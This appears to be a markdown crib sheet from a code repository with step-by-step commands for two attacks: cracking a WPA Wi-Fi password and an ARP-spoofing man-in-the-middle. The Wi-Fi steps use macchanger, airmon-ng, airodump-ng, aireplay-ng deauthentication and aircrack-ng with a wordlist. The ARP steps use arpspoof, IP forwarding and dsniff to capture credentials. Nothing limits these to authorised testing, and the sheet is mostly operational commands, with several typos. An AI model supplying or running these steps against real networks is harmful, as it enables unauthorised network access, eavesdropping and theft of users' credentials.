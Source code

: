 # Cribsheet

## Brute force dictionary attack on a wireless network

### Requirements
Kali linux installation
Wireless adapter that can enter monitor mode
Wordlist

### Checking to see if a wireless card can entire monitor mode
In general most wifi cards can enter monitor mode. Monitor mode is when you change the behavoir of the wifi card to listen to all packets not just the ones directed to your machine.

## Steps
1) Setting wifi card to monitor mode...
  1a) ifconfig wlan0 down: This turns of the wireless card ( we want to change our own mac address )
  1b) use macchanger to change to a different mac address
  1c) ifconfig wlan0 up: Turns the wireless card back on
2) airmon-ng: airmon-ng is a tool in aircrack ng that is designed for wifi network security. Airmon ng is used to activate monitor mode on our device
  2a) airmon-ng start wlan0

3) We want to get a wi-fi packet for us to attack. This is important since attacking the actual router with a dictionary attack is slow and time consuming. instead we will copy the handshake and attack the packet that we recieved
  3a) airodump0ng wlan0mon: This will give us the mac address of the router we want to attack
  3b) airodump-ng -c [] --bssid[]: this will allow us to eavsedrop on the network
  3c) aireplay-ng -0 [number-of-packages] -a [BSSID] [] This will send deauthincation packets to a machine connected to the network and allow use to look capture the packet when the device reconnects

4) cracking the packet
  aircrack-ng -a2 -b [BSSID] -w [POSSIBLE_PASSWORDS_FILE.TXT] [PATH_TO_WPA_HANDSHAKE_FILES*.cap]
  
## Man in the middle ARP Spoofing

### Requirements
Kali linux installation
Wirefless adapter that can enter monitor mode

## Steps
  1) Arpspoof: tells the client that we are now the serever
  2) Arpspoof: tell the server that they are a client by swaping mac addresses
  3) ip_forward: All the packets we recieve from the "client" we will echo it and forward it to the server
  4) dsniff: Grabs credentials from the packets
  
  
